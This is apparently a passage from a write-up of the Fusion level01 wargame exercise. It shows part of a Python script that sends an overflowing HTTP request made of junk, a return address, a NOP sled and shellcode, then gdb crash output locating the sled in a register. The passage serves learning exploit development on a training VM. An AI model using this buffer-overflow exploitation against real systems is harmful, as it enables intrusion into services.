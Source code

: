 ```
        s.send("GET " + junk + ret + " HTTP/1.1" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

As expected, when it was ran, it crashed, and dumped a core. 

```
fusion@fusion:~$ ./level01.py
[*] Connecting to 127.0.0.1 on port 20001
fusion@fusion:~$ ls /tmp
core-level01-11-20001-20001-2222-1341317061
```

So I loaded it into gdb to look at the dump. 

```
fusion@fusion:~$ sudo gdb -q --core=/tmp/core-level01-11-20001-20001-2222-1341317061
[New LWP 2222]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) i r
eax            0x1      1
ecx            0xb772d8d0       -1217210160
edx            0xbfa65d90       -1079616112
ebx            0xb78a5ff4       -1215668236
esp            0xbfa65d90       0xbfa65d90
ebp            0x41414141       0x41414141
esi            0xbfa65e44       -1079615932
edi            0x8049ed1        134520529
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Initially, this shows that our return address did get hit successfully, since "0xdeadbeef" is the overwritten EIP. I then started exploring each of the registers to see if there was anything of interest.  I found that my shellcode was actually being stored in the esi register, or at least the start of the nop-sled was: 
